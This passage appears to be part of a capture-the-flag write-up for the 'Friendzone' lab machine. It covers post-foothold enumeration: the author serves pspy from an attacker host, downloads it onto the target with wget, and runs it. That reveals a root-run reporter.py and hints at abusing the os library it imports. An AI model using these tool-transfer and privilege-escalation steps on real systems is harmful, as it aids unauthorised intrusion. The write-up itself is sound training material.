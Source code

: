 ```
cat user.txt
a9xxxxxxxxxxxxxxxxxxxxxxxxxxx11
```



<hr width="250" size="6">


`ps aux` gives a list of running processes, but nothing stands out.

I've used [pspy](https://github.com/DominicBreuker/pspy) before and found it highly effective
for enumerating running processes, so I send it to the target and set it running.

I use a python command to serve the file: `python3 -m http.server 80`
I create a folder on the target to work from: `mkdir /var/tmp/boo`
From inside my new folder I download the binary with: `wget http://10.10.14.14/pspy32`
And make it executable with: `chmod +x pspy32`

![pspy32](/assets/img/friendzone/friendzone-pspy32.png)


Running the program reveals that root is running a python script `/opt/server_admin/reporter.py`

Looking at `reporter.py` it seems harmless enough!

![reporterpy](/assets/img/friendzone/friendzone-reporterpy.png)


```
-rwxr--r-- 1 root root  424 Jan 16  2019 reporter.py
```

I can not write to the file, so can't edit it by replacing its contents or appending something. 


The script calls the `os` library, taking a look at that reveals something interesting.

![ospy](/assets/img/friendzone/friendzone-ospy.png)
